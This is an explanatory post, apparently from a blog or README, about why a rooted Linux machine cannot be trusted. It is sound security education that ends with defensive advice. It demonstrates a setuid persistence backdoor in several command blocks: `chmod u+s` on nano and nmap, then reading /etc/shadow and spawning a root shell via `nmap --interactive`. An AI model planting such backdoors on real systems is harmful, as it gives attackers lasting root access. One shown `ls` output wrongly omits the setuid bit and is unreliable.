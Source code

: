 # Why You Can't Un-Root a Compromised Machine

Let's say somebody temporarily got root access to your system, whether because you "temporarily" gave them sudo rights, they guessed your password, or any other way. Even if you can disable their original method of accessing root, there's an infinite number of dirty tricks they can use to easily get it back in the future.

While the obvious tricks are easy to spot, like adding an entry to /root/.ssh/authorized_keys, or creating a new user, potentially via running malware, or via a cron job. I recently came across a rather subtle one that doesn't require changing any code, but instead exploits a standard feature of Linux user permissions system called [setuid ](http://en.wikipedia.org/wiki/Setuid) to subtly allow them to execute a root shell from any user account from the system (including `www-data`, which you might not even know if compromised).

If the "setuid bit" (or flag, or permission mode) is set for executable, the operating system will run not as the current user, but as the owner. If that executable was installed globally, (as in `sudo apt-get install vim`), its owner will likely be `root`, and any user running `vim` it will be effectively running `sudo vim`, but without the sudo authorization.

For example, here's how a "hacker" with temporary root access can add the "setuid bit" to `nano`, a built-in text editor:

```
ssh root@target

whoami                 #    root
ls -al /bin/nano       #    -rwxr-xr-x 1 root root 191976 2010-02-01 20:30 /bin/nano

chmod u+s /bin/nano    # installs the backdoor

ls -al /bin/nano       #    -rwxr-xr-x 1 root root 191976 2010-02-01 20:30 /bin/nano
```

With this `nano` backdoor in place, the hacker will be able to regain root-level access even after you lock him out, if he can log in as any (non-privileged) user on the system:

```
ssh random-user@target

cat /etc/shadow                      #    cat: /etc/shadow: Permission denied
nano /etc/shadow                     #    SUCCESS - can set all passwords
nano /root/.ssh/authorized_keys      #    SUCCESS - can set authorized public keys (and read private keys)
```

The exploit can be made even more elegant if the target system has `nmap` installed. It's a common network diagnostic tool (like `ping` or `traceroute`, but with an added bonus: `nmap --interactive` allows you to easily execute shell commands By setting `nmap`'s setuid bit, we can easily make it a root shell:

```
# simulate hacker with root access
ssh root@localhost 'chmod u+s /usr/bin/nmap'

ssh anyuser@target
whoami                   # anyuser
cat /etc/shadow          # /etc/shadow: Permission denied
nmap --interactive
> !whoami              # root
> !cat /etc/shadow     # SUCCESS: prints out hashed passwords
> !bash                # SUCCESS: launches root shell
```

What's particularly sneaky here is that 'nmap' (like its little brother 'ping') needs root privileges to carry out most of its tests. In fact, `ls -al /bin/ping` shows that it already has the "setuid bit" set, which is why we don't have to run `sudo ping` all the time. But because nmap makes it easy to execute arbitrary commands through it, the [nmap manpage](http://manpages.ubuntu.com/manpages/precise/en/man1/nmap.1.html#contenttoc15) warns against using it with setuid. But many sysadmins don't read manpages, and will not notice this important security hole.

See [here](http://joshrendek.com/2013/02/why-setuid-is-bad-and-what-you-can-do/) for more info about setuid and nmap.

The moral of this whole story should be clear:
* Once your system has been hacked (especially rooted), you can't trust it anymore. You need to figure out how it was originally exploited, then restore from a known clean backup, and plug the hole. Or better yet, you're using an SCM tool like chef or puppet and can easily redeploy from scratch.
* In general, never allow shell access to untrusted parties, since you probably don't understand the holes in Linux user permissions well enough, and it can easily come back to bite you.
